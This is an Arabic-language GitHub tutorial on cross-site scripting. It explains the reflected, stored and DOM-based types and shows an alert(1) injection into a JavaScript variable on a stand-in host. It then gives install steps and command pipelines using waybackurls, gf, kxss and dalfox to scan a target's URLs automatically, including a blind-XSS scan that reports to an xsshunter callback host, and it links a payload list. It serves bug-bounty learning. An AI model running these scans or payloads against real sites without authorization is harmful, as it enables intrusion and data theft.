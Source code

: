 # <h1 dir='rtl' align='right'> XSS بالعربي </h1>

## <h2 dir='rtl' align='right'> ** المقدمة ** </h2>

<h2 dir='rtl' align='right'>
  Cross-Site Scripting (XSS) هو نوع من هجمات الحقن, حيث يتم حقن البرامج النصية الضارة في مواقع الويب. هناك ثلاثة أنواع من هجوم XSS
</h2>

<h3 dir='rtl' align='right'> Reflected XSS - النوع المنعكس </h3>

   <p dir='rtl' align='right'> عندك براميتر بيطبع محتواة فى الصفحة فا ممكن تضيف 
  html tags 
  ومنها تقدر تنفذ جافا سكريبت (ٍٍْXSS)
</p>

<h3 dir='rtl' align='right'> Stored XSS - المخزن </h3>

  <p dir='rtl' align='right'>
 reflected الفكرة ببساطة ان البايلود بتاعك بيتم تخزينة على عكس
 فا النوع اعلى من التاني عشان ممكن يتنفذ على اى حد منغير ما تبعت حاجة لى المستخدم زى مكان كومنتس او اسم للمستخدم
</p>

***

<h3 dir='rtl' align='right'> DOM-Based XSS - من داخل كود جافا سكربت </h3>

  <p dir='rtl' align='right'> نوع من XSS يحتوي على حمولات موجودة في DOM بدلاً من كود HTML. </p>

<h3 dir='rt1' align='right'>مثال : عندك الموقع دة وبراميتر بيطبع المحتوى بتاعة فى كود جافاسكريبت زى دة</h3>

```
http://vuln.attack/play.php?parameter=REFLECT
--
var flag_open = '0';
var feedid = '';
var link_url = "REFLECT";
var url_a = 'play.php';
```

فا ممكن تطلع برة وتضيف البايلود بتاعك

```
http://vuln.attack/play.php?parameter=REFLECT";alert(1)//
--
var flag_open = '0';
var feedid = '';
var link_url = "REFLECT";alert(1)//";
var url_a = 'play.php';
```


طبعا فيها اكتر من طريقة والموضوع كبير شوية فا ممكن تلقى نظرة على
[Chrom Dev Tools by Tomnomnom](https://www.youtube.com/watch?v=FTeE3OrTNoA)

وجرب تحل 
Google FireRang XSS

-------------------------------------------------------------------------------------------

<h2 dir='rtl' align='right'>
 ازاي تلاقي XSS بسهولة
</h2>

<h3 dir='rtl' align='right'>
  ايجاد الXSS ببعض ادوات الAutomate
</h3>

<p dir='rtl' align='right'> اولا نستخدم Dalfox, WaybackURL, GF Patterns
اول حاجة هنحتاج نثبت الادوات دي وقبل الادوات اهم شئ انك تثبت لغة البرمجة ذات نفسها الي الادوات دي بتشتغل بيها الا وهي
لغة الGO
</p>

```bash
sudo apt install -y golang
export GOROOT=/usr/lib/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
source .bashrc
```

<p dir='rtl' align='right'>
ولو عايز تشو فيديو علي السريع بيشرح تثبت لغة الGO ممكن تشوف الفيديو دا
<a href="https://www.youtube.com/watch?v=69bj8nUlLc8">اضفط هنا</a>
</p>

<h4 dir='rtl' align='right'>DalFox</h4>

<p dir='rtl' align='right'>
بعد كدا هنثبت اول اداة وهي DalFox
لو انت شغال علي اوبونتو يبقا سهل انك تثبتها كدا علي طول من Snap

```bash
$ sudo snap install dalfox
```
</p>

<p dir='rtl' align='right'>
او لو انت ثبت الجو زي مااحنا قولنا يبقا تثبتها كدا علي طول

```bash
go get -u github.com/hahwul/dalfox
```
</p>


<h4 dir='rtl' align='right'> WaybackURLs </h4>

<p dir='rtl' align='right'>
ثاني اداة هتتثبت كدا سهل جدا بعد اما ثبتنا الجو طبعا
</p>

```bash
go get github.com/tomnomnom/waybackurls
```

<h4 dir='rtl' align='right'> GF Patterns </h4>

<p dir='rtl' align='right'>
ثالث اداة بالاحتياجات الخاصة بيها وهي اداة GF
التثبيت بتاعها هكذا جو بردو هنا احنا هنثبت الاداة الاول
</p>

```bash
go get -u github.com/tomnomnom/gf
echo 'source $GOPATH/src/github.com/tomnomnom/gf/gf-completion.bash' >> ~/.bashrc
source ~/.bashrc
```
<p dir='rtl' align='right'>
بعد كدا في شوية Patterns او احتياجات الي هي الاداة هتشتغل بيهم وهنثبتهم كالاتي
اول حاجة هنعمل ملف نحطهم فيه
ثانيا هننفل بعض الPatterns الخاصة بTomnomnom
وهنحمل كمان شوية من ريبو تانية بردو
</p>

```bash
mkdir ~/.gf
cp -r $GOPATH/src/github.com/tomnomnom/gf/examples ~/.gf
cd ~/
git clone https://github.com/1ndianl33t/Gf-Patterns
mv ~/Gf-Patterns/*.json ~/.gf
```

<p dir='rtl' align='right'>
تمام كدا كل الي محتاجينه اتثبت علشان نعمل Automate لبعض الثغرات منهم الي بنتكلم عنها هنا وهي XSS
</p>

<p dir='rtl' align='right'>
هذة بعض الاوامر التي ممكن تستخدمها في الXSS زي ماقولنا
</p>

```bash
echo "target.com"| waybackurls |gf xss |dalfox pipe --blind youusername.xss.ht
```

<p dir='rtl' align='right'>
هنا انصحك تستخدمها في سيشن تانية وافضل انك تستخدمها في tmux tool
وهنا بردو لازم يكون معاك اكونت علي xsshunter
سهل انك تعمل اكونت من هنا
</p>
<p dir='rtl' align='right'>
<a href="https://xsshunter.com/app" >https://xsshunter.com/app </a>
وبعد اما تعمل اكونت غير
youusername.xss.ht
للصب الخاص بيك انت
ثاني طريقة وهي هنستخدم فيها kxss
</p>

### <h3 dir='rtl' align='right'> KXSS - تثبيت </h3>

<p dir='rtl' align='right'>
اول حاجة هنحملها من الجيت هاب هكذا
وهندخل علي الفولدر الي اتحمل دا
وهتلاقي جواه ادوات كثيرة هندخل جوا فولدر
kxss
ونعملها BUILD
وهننقلها للbinary directory
</p>

```bash
git clone https://github.com/tomnomnom/hacks
cd hacks/kxss
go build
cp kxss /usr/bin
```
<p dir='rtl' align='right'>
خلاص كدا ثبتناها ندخل بقا علي الكوماند الجاي وهو هنعمل بيه Automate لاننا نلاقي RXSS من خلال الادوات الي فات بردو بس بردون DalFox
</p>

```bash
echo 'target.com'| waybackurls | grep -v "png\|jpg\|css\|js\|gif\|txt\|pdf" | grep "="|httprobe |kxss|tee kxss.txt
```

<p dir='rtl' align='right'>
اداة httprobe هتلاقيها هنا </a href="https://github.com/tomnomnom/httprobe">https://github.com/tomnomnom/httprobe</a><br>
وبعد اما تشغل الكوماند الي فوق هيجرب بعض الcharcters في البرامترز ولو لقي في برامتر بيقبلهم هيقولك وفي الاخر هيحفظهملك في file
</p>

## <h2 dir='rtl' align='right'>اخيرا</h2>

<p dir='rtl' align='right'>
 واخرا وليس اخرا هنقف لهنا لو عندك اي اضافة اعمل pull request وضيفها وبردو انا شغال لو في حاجة جديدة هضيفها باذن الله
</p>

<p dir='rtl' align='right'>
وهنا هتلاقي في بعض الملفات هتفيدك في بعض الانواع المختلفة من الXSS
</p>

<p style='font-size:"50px;"' dir='rtl' align='right'>
 <a href="XSS\Files">Files</a><br>
 Payload ليستة <br>
 <a href="XSS\xsspayloads.txt">xsspayloads.txt</a>
</p>
